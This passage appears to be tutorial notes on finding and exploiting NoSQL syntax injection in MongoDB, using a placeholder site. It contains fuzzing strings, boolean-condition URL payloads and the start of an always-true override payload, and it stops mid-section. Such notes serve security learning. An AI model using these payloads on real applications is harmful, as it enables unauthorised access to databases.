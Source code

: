 <iframe title="Find and Exploit NoSQL Injection" src="https://www.youtube.com/embed/zHxgZJCy9fA?feature=oembed" height="113" width="200" allowfullscreen="" allow="fullscreen" style="aspect-ratio: 1.76991 / 1; width: 100%; height: 100%;"></iframe>

<iframe title="Second order NoSQL injection? - Solution to January '23 Challenge" src="https://www.youtube.com/embed/bAWOY2sim4o?feature=oembed" height="113" width="200" allowfullscreen="" allow="fullscreen" style="aspect-ratio: 1.76991 / 1; width: 100%; height: 100%;"></iframe>


## NoSQL syntax injection

### Detecting syntax injection in MongoDB

Your request:
```
https://insecure-website.com/product/lookup?category=fizzy
```

This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:

`this.category == 'fizzy'`

#### To Test it:
```
'"`{ ;$Foo} $Foo \xYZ
```

If you counter a website uses json as a request then the payload would be this:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### Determining which characters are processed

try `'` if the original response changed then it might be vulnerable.

you can also confirm by escaping it `\'`


#### Confirming conditional behavior

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:

`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x`
`https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x`

If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

#### Overriding existing conditions

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`:
